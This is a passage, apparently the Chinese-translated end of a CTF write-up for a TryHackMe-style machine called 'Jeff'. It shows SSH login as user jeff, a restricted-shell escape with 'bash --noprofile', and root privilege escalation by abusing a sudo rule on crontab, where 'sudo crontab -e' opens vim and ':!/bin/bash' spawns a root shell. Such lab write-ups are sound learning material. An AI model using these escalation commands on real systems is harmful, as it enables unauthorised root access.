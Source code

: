 ![](img/fc53898ace105f2c4c3d1c88257ccaac.png)

现在，由于 ssh 在端口 22 上是开放的，我们可以使用给定的凭证 SSH 到用户 jeff 并读取 user.txt。

```
ssh jeff@jeff.thm # It will give restricted shell
```

# 权限提升-> root

很容易将我们的特权提升到 root。但是用户“jeff”正在运行一个受限制的 shell，因此要从其中退出。奔跑

```
ssh jeff@jeff.thm -t "bash --noprofile"
```

当试图将我们的特权提升到 root 时，我们首先检查的是运行“sudo -l”。我错了吗？😜。运行该命令会显示

```
Matching Defaults entries for jeff on tryharder:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User jeff may run the following commands on tryharder:(ALL) /usr/bin/crontab
```

现在这很容易。快跑吧

```
sudo /usr/bin/crontab -e
```

这将打开 vim 并键入":！/bin/bash”并按回车键。耶！最终扎根😈

现在，从“/root/root.txt”中读取根标志

# 结论:

好吧，就这样。我希望这没有让你厌烦。这是我演过的最艰难的 CTF，我非常喜欢。花时间是值得的。请继续关注，阅读更多关于 CTF 和奖金的文章。最后，我知道我犯了很多语法错误，原谅我。

~ R3 alix 01(Piyush achr ya)